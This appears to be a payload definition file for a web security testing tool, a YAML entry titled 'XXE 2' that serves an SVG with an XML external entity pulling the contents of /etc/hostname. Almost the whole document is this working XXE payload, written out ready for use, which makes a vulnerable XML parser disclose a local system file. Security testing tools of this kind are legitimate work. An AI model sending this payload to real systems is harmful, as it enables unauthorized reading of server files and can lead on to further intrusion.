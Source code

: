 ```yaml
---
title: XXE 2
description: XXE of some sorts
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\\n\u003c/svg\u003e"}'
---
```



Returns an XXE payload that attempt to get the contents of `/etc/hostname`.